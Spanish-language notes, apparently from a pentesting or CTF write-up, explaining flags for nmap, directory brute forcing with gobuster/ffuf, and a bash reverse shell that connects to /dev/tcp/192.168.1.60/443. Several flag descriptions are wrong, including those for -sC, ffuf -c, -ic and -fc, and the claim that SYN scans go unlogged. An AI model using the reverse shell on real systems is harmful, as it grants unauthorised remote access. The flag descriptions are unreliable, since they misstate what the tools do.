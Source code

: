 **1. “-sS”:**
      - este parámetro nos permite hacer un sondeo Tcp pero no establecer conexión En vez de “SYN>SYN/ACK>ACK” hace un “SYN>SYN/ACK/RST” El rst es para cerrar conexión, como no se ha esablecido conexión normalmente no se guarda en los logs ni rastro en los firewalls.
    
**2.	“-p-“**
  - Con esto le indicamos que nos escanee los 65535 puertos totales que hay
     
**3. “—open”** 
  -	para que nos muestre solo los puertos abiertos y que ignore los filtrados,
    
**4. “-T5”** 
  - Este nos permite modificar la plantilla de temporizado del escaneo, existen 5 modos : paranoico (0), sigiloso (1), amable (2), normal (3), agresivo (4) y loco (5), Los 2 primeros reducen el sondeo tcp para que utilize menos ancho de banda. La 0 sondea 1 puerto a la vez, y espera 5 min antes de enviar cada sonda, el 1 y el 2 son similares, esperan 0.4 segundos entre sondas, el 3 (uso por defecto de nmap) hace sondeos en paralelo, el 4 y el 5 envian sondas cada 5 ms, lo único que les diferencian es el tiempo que esperan para recibir la respuesta de el sondeo TCP.
    
**5. “—min-rate 5000”**
  -	Nos permite especificar la cantidad mínima de paquetes que se envían por segundo, por lo que he investigado el numero que menos falsos positivos y falsos negativos da se encuentra entre el 5000-5800.
    
**6. ”-n”** 
  -	Le indicamos que no queremos que nos haga la resolución DNS al host, básicamente pregunta a los servidores DNS cual es el dns del host (nslookup), lo que ocurre es que la resolución hace muy lento el escaneo por lo que lo desactivamos ya que si queremos hacer resolución dns lo podemos hacer manualmente.
    
**7. “-Pn”**
  - En este caso le indicamos que no lance trazas icmp al host, ya que normalmente antes de un escaneo nmap envia trazas icmp para determinar si el host está activo o no, lo que ocurre es que ralentiza mucho el escaneo por lo que lo deshabilitamos ya que si queremos determinar si el host esta vivo tenemos muchísimos otros métodos incluso si las trazas icmp están bloqueadas por firewall físico o de sistema operativo.
    
**8. “-oG”**
  - Le indicamos que nos ponga el output en un archivo en formato grepeable para que después cuando lo pase por una función de mi zshrc me copie al portapapeles los puertos abiertos
    
**9. “-vvv”**
  -	Es para ponerlo en verbose mode, básicamente que mientras está haciendo el escaneo nos muestre que puertos encuentra abiertos
    
**10. “-sC”**
  -	Nos permite detectar que servicios están corriendo en los puertos abiertos
    
**11. “-sV”**
  -	Nos permite detectar la versión de los servicios que estan ejecutándose en los puertos lo que nos permite encontrar vulnerabilidades
    
**12. “-oN”**
  -	Es para exportarlo en formato Nmap por si después tenemos que volver a analizarlo.

**13.	“-u”**
  -	Es para indicarle el url victima
  	
**14.	“-w”**
  -	Es para indicarle el diccionario para la fuerza bruta, en este caso utilizo un que ya esta creado llamado “SecLists” que es un conjunto de diccionarios para hacer fuerza tanto como subdominios, fuzzing, etc.
    
**15. “-t”**
  - Es para indicarle los hilos de el proceso (Cuantas tareas a la vez debe ejecutar a la vez (en este caso 400)

**16. “-x”**
  - Es para indicarle que extensiones específicas quiero que me reporte que ha encontrado en algún directorio.
    
**17.	“bash -c”**
  -	Primero lo que hacemos es asegurarnos que el comando se ejecuta con bash y no con otro tipo de Shell, ya que sinó no funcionará.

**18.	“bash -i”**
  -	Ejecutamos una bash interactiva, ya que bash -c solo nos permite ejecutar comandos, como por ejemplo: “whoami”, pero este no nos permite ejecutar nada más, por esa razón una bash interactiva nos deja poner comandos todas las veces que queramos y recibir el output.
    
**19.	“>&”**
  -	Con estos caracteres especiales redirigimos el stdrr y el stdout a nuestro equipo
    -	“/dev/tcp/192.168.1.60 /443”
  - En este caso “/dev/tcp” está siendo utilizado para entablar por tcp una conexión con nuestra ip por el puerto 443
    
**20.	“0>&1”**
  -	Redirige el stdin a stdout, esto se hace para que se pueda interactuar con una Shell en remoto mediante la conexión establecida.
  -	Esta redirección es utilizada para hacer que la entrada estándar del proceso Bash (que normalmente se recibiría del teclado) esté conectada a la misma ubicación que la salida estándar. Esto significa que cualquier entrada que se escriba en la sesión de la shell se transmitirá a través de la misma conexión que se ha establecido con la dirección IP y puerto especificados. Esto permite la interacción bidireccional con la shell remota a través de la conexión de red establecida.

**21. ffuf**
  - Prueba diferentes combinaciones de direcciones URL de un dominio para identificar qué rutas están activas y cuáles no.

**22. -c**
  - Con este parámetro haremos que siga automáticamente las redirecciones HTTP y HTTPS.

**23. -u**
  - Este paramettro hacemos especificar una URL para hacer la fuerza bruta.
    
**24. -w**
  - Especificamos la ubicación del archivo de palabras que utiliza la herramienta ffuf para realizar la fuerza bruta, ese archivo se llama common.txt, ubicado en /usr/share/wordlists/dirb.

**25. -ic**
  - Con este parámetro hacemos que los códigos en estado HTTP no se distinga entre mayúsculas y minúsculas.
    
**26. -fc 403**
  - Con este parámetro escogemos que queremos filtrar durante el escaneo en este caso queremos las respuestas de 403 (Forbidden).
    
**27. -e**
  - Este parámetro lo utilizaremos para decir que archivos queremos que nos filtre, en este caso seria .txt y .html

